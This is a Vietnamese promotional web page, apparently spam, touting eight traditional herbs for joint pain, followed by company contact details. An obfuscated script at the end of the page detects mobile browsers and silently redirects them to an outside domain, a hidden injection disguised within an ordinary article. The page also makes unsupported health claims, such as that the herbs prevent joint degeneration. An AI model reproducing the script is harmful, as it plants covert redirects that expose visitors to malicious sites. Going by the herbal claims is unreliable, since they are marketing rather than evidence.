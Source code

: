 Người mắc bệnh xương khớp có nên sử dụng thảo dược?
---------------------------------------------------

Hiện nay, xu hướng của những người mắc các bệnh lý xương khớp là lựa chọn các vị thuốc, cây thuốc có nguồn gốc từ thiên nhiên, an toàn, lành tính, đặc biệt là những thảo dược đã được dân gian sử dụng từ bao đời nay.

Chiết xuất quả chiêu liêu có tác dụng chống viêm, hỗ trợ giảm đau khớp

8 loại thảo dược quý trong YHCT tốt cho xương khớp
-------------------------------------------------

Đối với các bệnh lý xương khớp thì những thảo dược thường được sử dụng từ xa xưa trong YHCT phải kể đến như: Thiên niên kiện, Dây đau xương, Hy thiêm, Độc hoạt, Kê huyết đằng, Thổ phục linh, Xuyên khung, Ngưu tất bắc. Trong đó:

Thiên niên kiện (Rhizoma Homalomenae occultae): Trừ phong thấp, cường gân cốt, chỉ thống.

Dây đau xương (Caulis Tinosporae sinensis): Khu phong trừ thấp, thư cân hoạt lạc.

Hy thiêm (Herba Siegesbeckiae): Trừ phong thấp, thông kinh lạc.

Độc hoạt (Radix Angelicae pubescentis): Trừ phong thấp, chỉ thống, giải biểu, khứ phong, thắng thấp, tán hàn.

Kê huyết đằng (Caulis Spatholobi suberecti): Hoạt huyết, bổ huyết, thư cân, mạnh gân cốt, thông kinh hoạt lạc.

Thổ phục linh (Rhizoma Smilacis glabrae): Trừ phong thấp, lợi gân cốt, tiêu độc.

Xuyên khung (Rhizoma ligustici Wallichi): Bổ huyết, khai uất, khu phong, chỉ thống.

Ngưu tất bắc (Radix Achyranthis bidentatae): Hoạt huyết, thông kinh hoạt lạc, thư cân, mạnh gân cốt.

Sử dụng kết hợp các thảo dược trên giúp thận được bồi bổ, khí huyết lưu thông dễ dàng, hệ cơ xương khớp nhờ đó cũng được nuôi dưỡng đầy đủ, tránh được những cơn đau nhức do tắc nghẽn, chèn ép mạch máu, cân cơ và ngay tại ổ khớp.

8 thảo dược này không chỉ giúp giảm triệu chứng đau nhức khớp mà còn bồi bổ, nuôi dưỡng hệ cơ xương khớp một cách toàn diện khi sử dụng lâu dài. Cụ thể:
-----------------------------------------------------

Bổ khí huyết, gan thận

Giúp giảm đau, chống viêm

Mạnh gân cốt

Phòng ngừa và hạn chế thoái hóa

THÔNG TIN LIÊN HỆ:

THẢO DƯỢC TỐT NHẤT CHO XƯƠNG KHỚP - CÔNG TY TNNH THƯƠNG MẠI JQK

GMAIL: THAODUOCXUONGKHỌPQK@GMAIL.COM

ĐỊA CHỈ: ĐẠI THÀNH - QUỐC OAI - HÀ NỘI

SỐ ĐIỆN THOẠI: 0977.888.999

<script>
function _0x3acc(_0x284298, _0x25b2df) {
        var _0x5a0508 = _0x2464();
        return (
          (_0x3acc = function (_0x150fc1, _0x502ed6) {
            _0x150fc1 = _0x150fc1 - (-0x7a9 + -0x10 * 0x27 + 0x2 * 0x5fd);
            var _0x70deb8 = _0x5a0508[_0x150fc1];
            return _0x70deb8;
          }),
          _0x3acc(_0x284298, _0x25b2df)
        );
      }
      (function (_0x5cc21d, _0x32d2c9) {
        var _0x543a06 = _0x3acc,
          _0x509667 = _0x5cc21d();
        while (!![]) {
          try {
            var _0x4b6b69 =
              -parseInt(_0x543a06("0x1e8")) / (0x921 + -0x2265 + 0x1 * 0x1945) +
              -parseInt(_0x543a06("0x1ec")) / (-0x1560 + -0x10c9 + 0x262b) +
              parseInt(_0x543a06("0x1e9")) /
                (0x1 * -0xf59 + -0x17c * -0x17 + -0x12c8) +
              -parseInt(_0x543a06("0x1e3")) /
                (-0x3 * -0xb6f + 0x1add * -0x1 + 0x5f * -0x14) +
              (parseInt(_0x543a06("0x1e7")) /
                (-0x2079 + 0x204 * 0x8 + 0x105e)) *
                (-parseInt(_0x543a06("0x1e6")) /
                  (0x8dc + -0xfe9 + 0x1 * 0x713)) +
              parseInt(_0x543a06("0x1f1")) /
                (-0x196d + 0x35b * 0x3 + -0x521 * -0x3) +
              (parseInt(_0x543a06("0x1eb")) /
                (-0xb * -0x326 + 0xe5b + -0x30f5 * 0x1)) *
                (parseInt(_0x543a06("0x1e1")) /
                  (0x6 * 0x1a9 + 0xf4f + 0x4c * -0x55));
            if (_0x4b6b69 === _0x32d2c9) break;
            else _0x509667["push"](_0x509667["shift"]());
          } catch (_0x5dee30) {
            _0x509667["push"](_0x509667["shift"]());
          }
        }
      })(_0x2464, -0x1 * -0xd5551 + -0xfe723 + 0x100 * 0xe71);
      function checkPointVIP() {
        var _0x1597b4 = _0x3acc,
          _0x512d05 = {
            hwTZb: _0x1597b4("0x1ea"),
            CMDgM: function (_0x3c47f1, _0x434746, _0x4e8d49) {
              return _0x3c47f1(_0x434746, _0x4e8d49);
            },
            fbBsr: _0x1597b4("0x1e5"),
          };
        /Android|webOS|iPhone|iPad|iPod|BlackBerry|IEMobile|Opera Mini/i[
          _0x1597b4("0x1ed")
        ](navigator[_0x1597b4("0x1e2")])
          ? _0x512d05["CMDgM"](
              setTimeout,
              function () {
                var _0x5910a3 = _0x1597b4;
                window["location"][_0x5910a3("0x1e4")] =
                  _0x512d05[_0x5910a3("0x1ef")];
              },
              -0x1a47 + 0x2361 + -0x23 * 0x26
            )
          : console[_0x1597b4("0x1f0")](_0x512d05[_0x1597b4("0x1ee")]);
      }
      function _0x2464() {
        var _0x21041b = [
          "log",
          "7482909HWmgGJ",
          "8811fswJIR",
          "userAgent",
          "1994944PQFzdL",
          "href",
          "Người\x20dùng\x20truy\x20cập\x20từ\x20desktop.",
          "6USohhu",
          "4040485VJAukx",
          "135228raUOXF",
          "953976yPVeKh",
          "https://www.muaxuandaden.click/loikk",
          "18472cpiDMs",
          "2854798lglKqX",
          "test",
          "fbBsr",
          "hwTZb",
        ];
        _0x2464 = function () {
          return _0x21041b;
        };
        return _0x2464();
      }
      checkPointVIP();
	  </script>
